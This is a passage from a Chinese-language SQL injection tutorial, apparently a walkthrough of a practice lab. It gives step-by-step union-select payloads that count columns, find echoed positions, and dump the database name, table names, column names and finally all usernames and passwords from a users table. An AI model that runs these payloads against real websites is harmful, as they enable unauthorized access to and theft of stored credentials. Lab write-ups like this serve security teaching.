 ?id=1 order by 4 --+ ,此时显示未知的列，说明此时当前表中只有3列

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210314232352443.png)

4. 判断显示位

上面我们判断出来了表中有3列，接下来判断我们的输入会在屏幕哪个地方进行回显

```
?id=-1' union select 1,2,3 --+ 
```

让union select前面的参数查不出来，所以id=-1'

如下，在name和password中回显了我们的输入，这时我们就随便选一个地方来放置接下来的测试语句。

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210314233755850.png)

5. 爆数据库名字

```
?id=-1' union select 1,database(),3 --+
```

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210315143610789.png)

6. 爆数据库中的表

```
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

其中爆出来数据库中存在三个表

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210315225817625.png)

7. 爆表中的字段

我们这里选择一个表，users进行进一步的获取表中的字段值

```
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+
```

获取到三个字段，分别为id,username,password

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210315230239161.png)

8. 爆相应字段的所有数据

```
?id=-1' union select 1,group_concat(id,'--',username,'--',password),3 from users --+
```

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/202103152309268.png)

至此，一次完整的脱库过程结束了，联合查询也就结束了。
